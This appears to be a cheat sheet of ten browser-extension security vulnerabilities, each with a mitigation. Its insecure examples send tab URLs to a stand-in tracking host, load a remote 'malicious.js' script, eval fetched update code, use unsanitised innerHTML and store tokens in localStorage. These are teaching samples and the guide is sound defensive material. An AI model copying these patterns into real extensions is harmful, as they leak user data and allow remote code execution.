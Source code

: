 # Browser Extension Security Vulnerabilities Cheat Sheet

1. Permissions Overreach

### Vulnerability
Browser extensions sometimes request more permissions than they actually need. This can grant them access to all tabs, browsing history, and even sensitive user data. If an extension is compromised, it could lead to serious privacy risks.

### Example

{
  ""manifest_version": 3,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}
### Mitigation

Follow the Principle of Least Privilege (PoLP) and request only the permissions that are absolutely necessary.
Use optional permissions whenever possible instead of granting full access upfront.
Regularly audit and remove any permissions that are no longer needed.

2. Data Leakage

### Vulnerability
Some extensions unintentionally expose user data by sending browsing activity or personal details to external servers without proper security measures.

### Example

chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ URL: tab.URL })
    });
  }
});
### Mitigation

Always use HTTPS for all communications to prevent data interception.
Limit data collection and be transparent by clearly stating what data is collected in a Privacy Policy.
Implement user consent mechanisms before collecting or sending any personal data.

3. Cross-Site Scripting (XSS)

### Vulnerability
If user input is not properly sanitized, attackers can inject malicious scripts into web pages, potentially stealing user data or performing unauthorized actions.

### Example

let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization
### Mitigation

Implement Content Security Policy (CSP) to block inline scripts.
Use libraries like DOMPurify to sanitize user input before displaying it.
Avoid using innerHTML and instead use textContent to prevent execution of injected scripts.

4. Insecure Communication

### Vulnerability
Some extensions send sensitive data over unsecured HTTP connections, making it vulnerable to interception by attackers.

### Example

fetch('http://example.com/api/data');
### Mitigation

Always use HTTPS for external communications to prevent data theft.
Validate server responses before processing them to ensure data integrity.

5. Code Injection

### Vulnerability
An extension that dynamically loads scripts from an untrusted source can be exploited to inject and execute malicious code.

### Example

let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);
### Mitigation

Use CSP (Content Security Policy) to restrict script sources.
For more details, refer to the [CSP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html).
Avoid using eval() and innerHTML as they can execute malicious code.
Prefer using extension messaging APIs instead of injecting scripts into web pages.

6. Malicious Updates

### Vulnerability
If an extension fetches updates from an untrusted server, an attacker could push malicious updates to all users.

### Example

chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Unsafe!
});
### Mitigation

Sign extension updates with digital signatures to ensure authenticity.
Instead of fetching updates within the extension, rely on updates from the extension marketplace.
See ["Don’t inject or incorporate remote scripts"](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices).
Implement integrity checks before executing any fetched code.

7. Third-Party Dependencies

### Vulnerability
Using outdated or vulnerable third-party libraries in an extension can introduce security risks if those libraries have known exploits.

### Example

{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}
### Mitigation

Regularly audit third-party dependencies for security vulnerabilities.
Use tools like npm audit or OWASP Dependency-Check to detect risks.
Prefer actively maintained libraries with frequent security updates.

8. Lack of Content Security Policy (CSP)

### Vulnerability
Without a strict CSP, attackers can inject scripts into an extension’s web pages, increasing the risk of cross-site scripting (XSS) attacks.

### Example

{
  "manifest_version": 3,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}
### Mitigation

Define a strict CSP in the extension’s manifest.json file.
Use nonce-based or hash-based policies to allow only trusted scripts.
Block execution of inline scripts and restrict third-party content sources.

9. Insecure Storage

### Vulnerability
Storing sensitive data like authentication tokens in localStorage or other unsecured locations makes it easy for attackers to access.

### Example

localStorage.setItem('token', 'my-secret-token'); // No encryption
### Mitigation

Store sensitive data in Chrome Storage API, which provides better security than localStorage.
Encrypt stored data before saving it locally.
Never hardcode API keys or credentials within the extension code.

10. Insufficient Privacy Controls

### Vulnerability
If an extension does not clearly define how it collects and handles user data, it could lead to privacy violations and unauthorized data usage.

### Example

{
  "manifest_version": 3,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}
### Mitigation

Implement a clear privacy policy that explains data collection practices.
Allow users to opt out of data collection.
Disclose data-sharing practices to comply with GDPR, CCPA, and other privacy regulations.

### Conclusion
By following these security best practices, developers can build safer browser extensions and protect users from privacy and security threats. Always prioritize least privilege, encryption, and secure coding principles when developing extensions.

🔹 References:
[Google Chrome Extension Security Guide](https://developer.chrome.com/docs/extensions/mv3/security/)  
[Mozilla Firefox Extension Security Best Practices](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices)
